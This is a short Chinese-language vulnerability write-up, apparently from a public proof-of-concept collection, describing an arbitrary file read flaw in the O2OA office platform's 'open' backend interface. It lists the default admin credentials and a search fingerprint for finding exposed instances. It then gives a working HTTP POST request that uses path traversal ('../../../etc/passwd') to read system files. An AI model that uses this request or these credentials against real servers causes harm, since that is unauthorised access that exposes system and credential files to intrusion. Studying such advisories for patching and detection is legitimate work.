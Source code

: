 # O2OA open 后台任意文件读取漏洞

## 漏洞描述

O2OA是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA系统 open 接口存在任意文件读取漏洞。攻击者可利用漏洞读取任意文件。

## 漏洞影响

<a-checkbox checked>O2OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="O2OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661649878832-df6a8d1f-e402-4db0-b567-7d0803a43c0a-8539272.png)

默认密码登录后台 xadmin/o2 (o2oa@2022),  验证POC

```php
POST /x_program_center/jaxrs/config/open?v=6.3
Authorization: PfyuxmzgIzq74NYhOcQ5NGbegmqb8H4y50QnO7mEHhA

{"fileName":"../../../etc/passwd"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661746022863-2eb3f02d-8437-4fa6-bb7f-dc401c699a63.png)